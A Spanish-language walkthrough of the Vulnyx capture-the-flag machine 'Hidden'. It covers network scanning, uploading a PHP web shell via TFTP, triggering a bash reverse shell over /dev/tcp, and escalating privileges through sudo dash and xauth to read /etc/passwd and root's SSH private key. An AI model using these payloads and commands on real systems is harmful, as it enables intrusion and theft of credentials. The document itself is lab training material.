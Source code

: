 ```yaml
---
layout: post
title: "Hidden"
date: 2024-04-23 17:50:23
category: sample
vm: vulnyx
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Hidden </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#hidden"> Vulnyx</a></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnyx/hidden/host.png){:.margin}

**1\.** Revisamos hosts en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/vulnyx/hidden/arp_scan.png){:.margin}

**2\.** Escaneamos puertos y servicios activos.

`sudo nmap -p- -T5 --open -sCV -n -Pn --min-rate=5000 192.168.1.4 -oN port_scan`

![img](/notas/public/img/vulnyx/hidden/nmap.png){:.margin}

**3\.** Por defecto en el servicio Apache no encontramos nada.

`http://192.168.1.4:80`

![img](/notas/public/img/vulnyx/hidden/80.png){:.margin}

**4\.** Hacemos fuzzing en busca de directorios y archivos.

`gobuster dir -u http://192.168.1.4/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,html,txt`

![img](/notas/public/img/vulnyx/hidden/gobuster.png){:.margin}
_\- No hallamos nada util._

**5\.** Escaneamos 500 puertos más comunes en el protocolo UDP.

`sudo nmap -sU --top-ports 500 192.168.1.4`

![img](/notas/public/img/vulnyx/hidden/udp.png){:.margin}

**6\.** Iniciamos en el servicio TFTP, vemos los comandos disponibles.

`tftp 192.168.1.4`

`help`

![img](/notas/public/img/vulnyx/hidden/tftp.png){:.margin}

**7\.** Creamos nuestra archivo para ejecutar comandos en la url.

`nano shell.php`

`<?php system($_GET["cmd"]);?>`

![img](/notas/public/img/vulnyx/hidden/shell.png){:.margin}

_\- _Subimos nuestro archivo._

`put shell.php`

![img](/notas/public/img/vulnyx/hidden/put.png){:.margin}

**8\.** Apuntamos a nuestro archivo y le indicamos un comando.

`http://192.168.1.4/shell.php?cmd=id`

![img](/notas/public/img/vulnyx/hidden/id.png){:.margin}

**9\.** Nos ponemos en escucha por netcat.

`sudo nc -nlvp 443`

![img](/notas/public/img/vulnyx/hidden/nc.png){:.margin}

**10\.** Nos enviamos la reverse shell.

`http://192.168.1.4/shell.php?cmd=bash%20-c "bash -i>26/dev/tcp/192.168.1.9/443 0>%261"`

![img](/notas/public/img/vulnyx/hidden/reverse_shell.png){:.margin}

**11\.** Por netcat vemos que recibimos la conexión.


![img](/notas/public/img/vulnyx/hidden/connected.png){:.margin}

**12\.** Hacemos tratamiento de la tty.

`script /dev/null -c bash`

`ctrl+z`

`stty raw -echo; fg`

`reset xterm`

`export TERM=xterm`

`export SHELL=bash`

![img](/notas/public/img/vulnyx/hidden/stty.png){:.margin}

![img](/notas/public/img/vulnyx/hidden/stty2.png){:.margin}

**13\.** Revisamos permisos sudo, podemos ejecutar dash como usuario satan.

`sudo -l`

![img](/notas/public/img/vulnyx/hidden/sudo_l.png){:.margin}

**14\.** Ganamos acceso como usuario satan; [dash](https://gtfobins.github.io/#dash).

`sudo -u satan dash`

![img](/notas/public/img/vulnyx/hidden/dash.png){:.margin}

**15\.** Revisamos permisos sudo, tenemos dos binarios con todos los permisos.

`sudo -l`

![img](/notas/public/img/vulnyx/hidden/sudo_l_satan.png){:.margin}

**16\.** En este caso usare xauth, ya que tenemos una opción interesante.

`xauth -h`

![img](/notas/public/img/vulnyx/hidden/xauth_help.png){:.margin}

**17\.** El binario espera un archivo con comandos, pero al no ser un comando nos muestra el contenido.

`sudo -u root xauth source /etc/passwd`

![img](/notas/public/img/vulnyx/hidden/etc_passwd.png){:.margin}

**18\.** Aprovechemos para leer el idrsa de root; lo copiamos.

`sudo -u root xauth source /root/.ssh/id_rsa`

![img](/notas/public/img/vulnyx/hidden/idrsa.png){:.margin}


**19\.** Lo guardamos en una archivo, completamos la cabecera y el pie del idrsa.

`nano id_rsa`

![img](/notas/public/img/vulnyx/hidden/nano_idrsa.png){:.margin}

_\- Le asignamos los permisos correspondientes._ 

`chmod 600 id_rsa`

![img](/notas/public/img/vulnyx/hidden/chmod.png){:.margin}

**20\.** Nos conectamos por ssh como root, y finalizamos obteniendo la flag.

`ssh -i id_rsa root@192.168.1.4`

`cd /root/`

`ls -a`

`cat .root.txt`

![img](/notas/public/img/vulnyx/hidden/flag.png){:.margin}

<br>

<a href="#">_Finalizado._</a>